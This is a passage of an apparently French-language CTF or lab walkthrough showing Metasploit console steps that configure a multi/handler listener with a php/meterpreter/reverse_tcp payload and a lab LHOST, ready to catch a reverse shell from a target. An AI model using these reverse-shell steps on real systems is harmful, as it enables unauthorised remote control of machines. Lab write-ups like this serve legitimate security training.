 Nous allons utiliser l'exploit suivant:

> use exploit/multi/handler
>

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
```

Lancer la commande *options* pour voir ce que nous demande l'exploit.

```
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```

Il est nécessaire de set le LHOST (local host), ajoutez l'ip avec la commande suivante:

> set LHOST 10.8.152.244

```
msf6 exploit(multi/handler) > set LHOST 10.8.152.244
LHOST => 10.8.152.244
```

Il nous faudra ensuite un payload permettant d'ouvrir une session meterpreter, le suivant fera l'affaire:

> php/meterpreter/reverse_tcp
>

```
msf6 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp
pAYLOAD => php/meterpreter/reverse_tcp
```

Bien, il ne nous reste plus qu'à lancer l'exploit puis lancer le reverse shell qui se trouve sur la machine cible.
